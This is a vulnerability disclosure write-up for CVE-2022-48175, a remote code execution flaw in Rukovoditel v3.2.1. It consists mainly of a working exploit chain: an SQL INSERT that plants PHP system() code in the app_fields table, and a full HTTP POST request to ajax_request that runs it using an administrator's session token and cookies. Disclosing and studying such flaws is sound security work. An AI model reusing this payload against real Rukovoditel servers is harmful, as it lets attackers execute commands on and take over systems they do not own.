

# Rukovoditel v3.2.1 has Remote Code Execution in ajax_request.php
CVE-2022-48175
Author: y1s3m0

vendors: 

- https://www.rukovoditel.net/

- https://sourceforge.net/projects/rukovoditel/files/latest/download

## Payload

database:rukovoditel

In the latest version of Rukovoditel, there is a remote command execution vulnerability that can be exploited simply by combining it with an SQL injection vulnerability. By executing the following command in the database, you can store the command you need. You just need to focus on "id", "type", and "configuration", and make sure that type="fieldtype_ajax_request" and configuration are the PHP command you want to execute.

```sql
INSERT INTO `rukovoditel`.`app_fields`(`id`, `entities_id`, `forms_tabs_id`, `comments_forms_tabs_id`, `forms_rows_position`, `type`, `name`, `short_name`, `is_heading`, `tooltip`, `tooltip_display_as`, `tooltip_in_item_page`, `tooltip_item_page`, `notes`, `is_required`, `required_message`, `configuration`, `sort_order`, `listing_status`, `listing_sort_order`, `comments_status`, `comments_sort_order`) VALUES (999, 23, 28, 0, '', 'fieldtype_ajax_request', 'Subject', '', 1, '', '', 0, '', '', 1, '', '{\"php_code\":\"system(\\"whoami\\")\"}', 3, 1, 3, 0, 0);
```

Then, by obtaining the administrator's "form_session_token" and cookie, you can construct a payload similar to the one below and execute the command stored in the database. Make sure that field_id is the injected id above.

```sql
POST /index.php?module=dashboard/ajax_request&field_id=999 HTTP/1.1
Host: rukovoditel:8082
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,ja;q=0.8,vi;q=0.7
Content-Length: 35
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: cookie_test=please_accept_for_session; sid=ecvuqrogd8e5v7jvlqr2mvhj5c; app_remember_me=1; app_stay_logged=1; app_remember_user=YWRtaW4%3D; app_remember_pass=JFAkRTRVRnlFMHhGQzYxMlFqWE5KUHJxLzJHck9oUGVTMA%3D%3D; XDEBUG_SESSION=XDEBUG_ECLIPSE
DNT: 1
Origin: http://rukovoditel:8082
Referer: http://rukovoditel:8082/index.php?module=custom_php/code
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

form_session_token=ih7agGdyZZ
```


